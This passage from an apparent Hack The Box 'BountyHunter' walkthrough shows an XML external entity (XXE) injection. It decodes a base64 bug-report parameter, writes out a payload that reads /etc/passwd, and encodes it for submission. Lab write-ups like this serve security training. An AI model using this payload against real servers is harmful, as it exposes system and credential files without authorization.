 ```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4xPC90aXRsZT4KCQk8Y3dlPjE8L2N3ZT4KCQk8Y3Zzcz4xPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

After decoding it it looks like it is xml
```
┌──(root💀kali)-[~/htb/bountyhunter]
└─# echo -n PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4xPC90aXRsZT4KCQk8Y3dlPjE8L2N3ZT4KCQk8Y3Zzcz4xPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg | base64 -d 
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>1</title>
                <cwe>1</cwe>
                <cvss>1</cvss>
                <rewardbase64: invalid input

```

I thought that there might be some way to insert a payload so I googled "XML payloads" and I found a github repo with lots of them https://github.com/payloadbox/xxe-injection-payload-list. The one we want is "XXE: Local File Inclusion"

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>&file;</reward>
</bugreport>
```

Then we base64 encode it and I got: 
`PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGRhdGEgWwo8IUVOVElUWSBmaWxlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KPGJ1Z3JlcG9ydD4KPHRpdGxlPnRlc3Q8L3RpdGxlPgo8Y3dlPnRlc3Q8L2N3ZT4KPGN2c3M+dGVzdDwvY3Zzcz4KPHJld2FyZD4mZmlsZTs8L3Jld2FyZD4KPC9idWdyZXBvcnQ+`

Then I put in the base64 encoded string into `data=` and it returned the `/etc/passwd` file. (make sure to url encode)
![BountyHunter](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bounty_hunter/bounty_request.png)

